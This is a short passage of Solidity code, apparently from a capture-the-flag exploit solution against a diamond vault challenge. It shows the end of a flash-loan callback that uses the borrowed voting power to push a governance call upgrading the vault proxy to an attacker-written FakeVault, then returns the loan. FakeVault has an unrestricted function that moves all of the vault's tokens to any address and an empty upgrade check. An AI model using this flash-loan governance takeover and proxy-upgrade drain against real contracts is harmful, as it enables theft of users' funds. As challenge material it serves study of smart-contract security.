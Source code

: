 ```solidity
        bytes memory data = abi.encodeWithSelector(vault.upgradeTo.selector, address(fakeVault));
        vault.governanceCall(data);

        // Return the borrowed diamonds to vault
        diamond.transfer(address(vault), setup.DIAMONDS());

        return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }
}

contract FakeVault is Initializable, UUPSUpgradeable, OwnableUpgradeable {    
    // Keep the diamond state variable
    Diamond diamond;

    // Function to transfer all of the vault's diamonds
    function transferDiamonds(address to) public {
        diamond.transfer(to, diamond.balanceOf(address(this)));
    }
    
    // _authorizeUpgrade has to be implemented for UUPSUpgradeable contracts
    function _authorizeUpgrade(address) internal override view {}
}
```